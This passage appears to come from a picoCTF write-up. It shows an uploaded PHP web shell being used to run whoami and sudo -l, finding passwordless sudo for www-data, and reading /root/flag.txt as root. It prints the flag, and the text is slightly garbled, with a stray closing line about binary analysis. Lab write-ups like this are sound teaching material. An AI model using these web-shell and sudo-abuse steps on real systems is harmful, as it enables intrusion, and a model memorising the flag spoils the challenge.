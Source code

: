 
### 2. Verifying Shell Access

- **Test Command:**
We navigated to the URL:

which returned the output confirming that our payload was executing. The shell printed the current user (www-data).
    
    ```
    http://target/uploads/shell.php?cmd=whoami
    ```
    
- Got the www-data as the output

### 3. Checking Sudo Privileges

- **Command:**
Next, we ran:
    
    ```
    http://target/uploads/shell.php?cmd=sudo%20-
    ```
    
- **Output:**
The output showed:
    
    ```ruby
    atching Defaults entries for www-data on challenge:
        env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    User www-data may run the following commands on challenge:
        (ALL) NOPASSWD: ALL
    ```
    
- **Implication:**
This indicated that the web server user `www-data` could run all commands as root without a password, giving us full root privileges.

### 4. Retrieving the Flag

- **Direct Command Execution:**
With full sudo privileges, we executed:
    
    ```perl
    http://target/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
    ```
    
- **Result:**
The contents of `/root/flag.txt` were displayed, revealing the flag.

### Flag

picoCTF{wh47_c4n_u_d0_wPHP_712a9451}

---

- Analyzed the binary using binary ninja and then got the address of main() and win()
